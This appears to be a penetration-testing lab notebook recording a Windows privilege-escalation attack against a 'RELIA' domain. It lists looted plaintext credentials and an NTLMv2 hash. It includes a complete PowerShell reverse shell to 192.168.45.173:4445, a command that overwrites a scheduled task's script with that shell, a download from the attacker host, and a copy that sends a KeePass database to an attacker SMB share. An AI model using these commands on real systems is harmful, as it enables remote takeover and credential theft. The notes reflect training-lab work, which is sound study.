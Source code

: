 Loot:
- dmzadmin:SlimGodhoodMope
- jim@relia.com:Castello1!

**WinPeas:**
~~Passord lists:~~
```
C:\Users\jim\AppData\Local\Packages\MicrosoftWindows.Client.WebExperience_cw5n1h2txyewy\LocalState\EBWebView\ZxcvbnData\3.0.0.0\passwords.txt

C:\Users\jim\AppData\Local\Packages\MicrosoftTeams_8wekyb3d8bbwe\LocalCache\Microsoft\MSTeams\EBWebView\ZxcvbnData\3.0.0.0\passwords.txt
```

~~Jim NTLMv2 hash:~~
- ~~jim::RELIA:1122334455667788:fe9458eed1e1f78074c9e9ab2761d5ea:010100000000000001a1bce15e77db0191456fd921d04b8b00000000080030003000000000000000000000000020000003822076f3394bde011c2a0c1ed2f4cf4a525d86c51a3e6030021c47343b60900a00100000000000000000000000000000000000090000000000000000000000~~
- ~~could not crack~~

Scheduled applications:
```
���������͹ Scheduled Applications --Non Microsoft--
� Check if you can modify other users scheduled binaries https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries                                                                                                                                                            
    (RELIA\jim) exec_lnk: powershell -ep bypass -File C:\Users\jim\Pictures\exec.ps1
    Permissions file: jim [AllAccess]
    Permissions folder(DLL Hijacking): jim [AllAccess]
    Trigger: At log on of RELIA\jim-After triggered, repeat every 00:01:00 indefinitely.
             At 12:55 AM on 10/19/2022-After triggered, repeat every 00:01:00 indefinitely.
```
- Got the following ifno from exec.ps1
```
Clear-DnsClientCache
$server = "mail.relia.com"
$port = 110
$enableSSL = $false
$username = "jim"
#$password = "DPuBT9tGCBrTbR"
$password = "Castello1!"
$baseFolder = "C:\attachments"
```

- Attempting to replace exec.ps1 with revshell:
	```
	$client = New-Object System.Net.Sockets.TCPClient('192.168.45.173',4445);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
	```
```
echo "$client = New-Object System.Net.Sockets.TCPClient('192.168.45.173',4445);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()" | Out-File -FilePath "C:\Users\jim\Pictures\exec.ps1"
```
	- This just got a shell as jim
- keepass exists on the system
	- C:\Program Files\KeePass Password Safe 2\KeePass.exe
- ~~PS history file: C:\Users\jim\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt~~

- iwr -uri http://192.168.45.173:8000/exec.ps1 -Outfile exec.ps1;
- Found kdbx in C:\Users\jim\Documents
- Get kdbx file from C:\Users\jim\Documents:
```
copy-item Database.kdbx \\192.168.45.173\test\Database.kdbx -Credential $cred
```
- Got Database.kdbx with smb server method, found password for dmzadmin
# Run Sharhound and analyze:
- 